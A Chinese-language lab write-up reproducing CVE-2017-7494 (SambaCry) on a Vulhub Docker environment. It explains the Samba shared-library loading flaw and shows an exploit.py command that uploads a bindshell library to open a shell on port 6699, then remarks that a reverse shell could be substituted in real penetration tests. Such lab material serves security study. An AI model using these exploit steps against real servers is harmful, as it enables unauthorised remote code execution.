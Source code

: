 # Samba 远程命令执行漏洞 CVE-2017-7494

## 漏洞描述

Samba允许连接一个远程的命名管道，并且在连接前会调用`is_known_pipename()`函数验证管道名称是否合法。在`is_known_pipename()`函数中，并没有检查管道名称中的特殊字符，加载了使用该名称的动态链接库。导致攻击者可以构造一个恶意的动态链接库文件，执行任意代码。

该漏洞要求的利用条件：

- 拥有共享文件写入权限，如：匿名可写等
- 需要知道共享目录的物理路径

参考：

- https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
- https://github.com/opsxcq/exploit-CVE-2017-7494
- http://bobao.360.cn/learning/detail/3900.html

## 漏洞影响

```
Samba版本：4.6.3（该漏洞在4.6.4被修复）
```

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

## 漏洞复现

测试环境运行后，监听445端口，默认开启了一个共享“myshare”，共享的目录为`/home/share`，可读可写。

我们可以在Linux下用smbclient（安装：`apt install smbclient`）连接试试：

![image-20220228222106682](images/202202282221768.png)

成功连接。大家测试的时候如果连接不成功，有可能是国内运营商封了445端口，最好在本地或虚拟机测试，比如上图。

参考[#224](https://github.com/vulhub/vulhub/issues/224)，新版metasploit可能无法复现这个漏洞。我们使用[SambaCry RCE exploit for Samba 4.5.9](https://github.com/opsxcq/exploit-CVE-2017-7494)来复现。

配置SambaCry RCE exploit for Samba 4.5.9：

```
$ conda create -n py27 python=2.7
$ pip install -r requirements.txt
```

在目标服务器上执行`/home/share/libbindshell-samba.so`，其中myshare是分享名称（在vulhub中为`myshare`），而`/home/share`是对应的可写目录。`-u`和`-p`用来指定用户名、密码，当前环境是一个匿名smb，所以填写任意信息均可。因为libbindshell-samba.so是一个bindshell，监听地址是6699，所以我们通过`-P`指定这个端口。在实际渗透中，我们可以修改`libbindshell-samba.c`，写入任意其他代码，如反弹shell，避免使用bindshell。

```
python ./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
```

成功执行命令：

![image-20220228223532911](images/202202282235034.png)
